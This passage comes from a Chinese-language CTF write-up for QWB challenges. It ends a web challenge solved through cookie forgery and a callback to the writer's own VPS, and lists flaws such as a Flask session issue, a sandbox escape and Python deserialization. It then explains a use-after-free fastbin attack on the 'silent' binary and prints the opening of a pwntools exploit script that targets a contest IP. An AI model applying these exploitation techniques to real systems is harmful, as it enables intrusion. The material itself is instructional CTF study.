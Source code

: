 点击submit后出现`Please use a different email address.`。

接着在burp中抓取访问index的包，并修改cookie为`675b6ec7-95bd-411f-a59d-4c3dbchybeta`，在自己的vps上监听对应的端口：

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210556-416f6304-302d-1.jpeg)

flag：QWB{pyth0n1s1ntere3t1ng}

总结:

*   wtforms.validators的Email类验证不完善
*   flask的session处理机制
*   python沙箱逃逸
*   python反序列化漏洞
*   一点“小小”的脑洞

Refference:

*   [P师傅：Python库WTForm过滤不严导致URLXSS漏洞](http://bugs.leavesongs.com/PYTHON/Python%E5%BA%93WTForm%E8%BF%87%E6%BB%A4%E4%B8%8D%E4%B8%A5%E5%AF%BC%E8%87%B4URLXSS%E6%BC%8F%E6%B4%9E/)

## PWN
### silent
+ 漏洞位置: del函数free掉堆块后没有清空指针造成了dangling_ptr。并且edit函数在使用时没有检查堆块是否已经free。
+ 利用思路：利用UAF构造fastbin attack。申请堆块，释放堆块进入fastbin，edit释放的堆块，修改其中的fd到got表上去，再申请回来，修改got表。

>Fastbin Attack
在malloc回来的时候会检查size位，看这个堆块是不是属于该Fastbin中，不过只检查低4字节，如果size位为61，那么检查时61-6f都能通过。

my-exp
```
from pwn import *
local = 1
if local:
    p = process('./silent')
    libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
else:
    p = remote('39.107.32.132' , 10000)#nc 39.107.32.132 10000
    libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def add(length , text):
    p.sendline('1')
    sleep(0.3)
    p.sendline(str(length))
    sleep(0.3)
    p.sendline(text)
    sleep(0.3)

def dele(num):
    p.sendline('2')
    sleep(0.3)
    p.sendline(str(num))
    sleep(0.3)

def edit(num , text):
    p.sendline('3')
    sleep(0.3)
    p.sendline(str(num))
    sleep(0.3)
    p.sendline(text)
    sleep(0.3)
    p.sendline('')

def debug():
    print pidof(p)[0]
    raw_input()
```
